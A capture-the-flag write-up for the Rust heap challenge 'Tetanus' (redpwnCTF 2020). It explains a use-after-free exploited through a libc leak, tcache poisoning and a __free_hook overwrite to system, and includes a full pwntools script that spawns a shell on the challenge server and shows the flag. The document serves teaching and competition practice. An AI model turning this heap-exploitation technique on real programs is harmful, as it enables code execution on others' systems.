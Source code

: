 # Tetanus
pwn, 492


Classic heap challenge but written in Rust. The vulnerability is deleting a chunk doesn't remove it's pointer from the vector of pointers the program maintains.

Rust uses glibc allocator, and this one uses Ubuntu 19.10, which uses glibc 2.30, meaning tcache stuff will be a bit harder.

Note that before reading / editing a chunk, we must first append an abitrary element so that Rust doesn't freak out when it tries to unpack the chunk into a VecDeque.

The idea is to first leak libc. We can do this by simply allocating a very big chunk, appending some data to it, and then freeing it. It'll end up in the unsorted bin, and we can then read from it to leak a libc offset pointer.

Then, we want to get our write. To do this, we can first allocate two chunks of tcache size, and append data to the first one. Then, we free the second one, then the first one. The tcache looks like: `<chunk 1> -> <chunk 2>`. The tcache counter is 2. The reason why we want to free two chunks instead of just one is because glibc 2.30 prevents the tcache underflow trick that was used in my solve for Four Function Heap.

Then, we can edit the first tcache chunk we freed (b/c UAF) to point to where we want to write (I chose to write to `__free_hook`). The tcache counter is still 2, as we only just modified the linked list pointer.

Allocating a third and fourth chunk from the tcache results in us being able to write the address of `system` to the fourth chunk, since that chunk is at `__free_hook`. 

Then, just allocate a chunk, append `/bin/sh` to it, and free it. The string `/bin/sh` gets passed to what  `__free_hook` points to, which is now the address of `system`, and we get a shell.


```python
from pwn import *


p = remote("2020.redpwnc.tf", 31069)
#p = process("./tetanus")
e = ELF("./tetanus")
libc = ELF("./libc.so.6")

#context.log_level = "debug"

#gdb.attach(p)


def alloc(size):
	print("alloc")
	p.recvuntil("> ")
	p.sendline("1")
	p.sendlineafter("> ", str(size))

def free(idx):
	print("free")
	p.recvuntil("> ")
	p.sendline("2")
	p.sendlineafter("> ", str(idx))


def edit(idx, el_idx, data=0x69696969):
	print("edit")
	p.recvuntil("> ")
	p.sendline("3")
	p.sendlineafter("> ", str(idx))
	p.sendlineafter("> ", str(el_idx))
	p.sendlineafter("> ", str(data))


def append(idx, *args):
	print("append")
	p.recvuntil("> ")
	p.sendline("5")
	#print(args)
	p.sendlineafter("> ", str(idx))
	p.sendlineafter("> ", str(len(args)))
	for i in args:
		print(i)
		p.recvuntil("> ")
		p.sendline(str(i))



def show(idx, el):
	print("show")
	p.recvuntil("> ")
	p.sendline("6")
	p.sendlineafter("> ", str(idx))
	p.sendlineafter("> ", str(el))


alloc(0x404)	# c0
append(0,0x1234)
free(0)
show(0, 0)

libc_leak = int(p.recvline().split()[-1].strip())
print("libc leak", hex(libc_leak))

libc.address = libc_leak - 0x1eabe0

binsh = 0x68732f6e69622f

print("libc address", hex(libc.address))
print("libc __free_hook", hex(libc.sym["__free_hook"]))
#print("libc __malloc_hook", hex(libc.sym["__malloc_hook"]))
print("libc system", hex(libc.sym["system"]))

#one_gadget = libc.address + 0x10afa9
#print("libc one_gadget", hex(one_gadget))

alloc(0x69)	# c1
alloc(0x69)	# c2
append(1, 0x4141)
free(2)
free(1)
edit(1, 0, libc.sym["__free_hook"])

alloc(0x69)	# c3
alloc(0x69)	# c4, this the chunk w/ pointer to where we want to write


# -- This one spawns a shell for you by calling __free_hook with /bin/sh as the memory being freed --
append(4, libc.sym["system"])

alloc(0x10)
append(5, u64("/bin/sh;"))
free(5)

# -- This one spawns a shell for you by utilizing the fact that rust mallocs and frees input, which in this case is the string "/bin/sh" --
#append(4, libc.sym["system"])
#p.recvuntil("> ")
#p.sendline("/bin/sh")

p.interactive()		#flag{w0w_wh0da_thunk_th4t_unsafe_means_unsafe_ls!}
```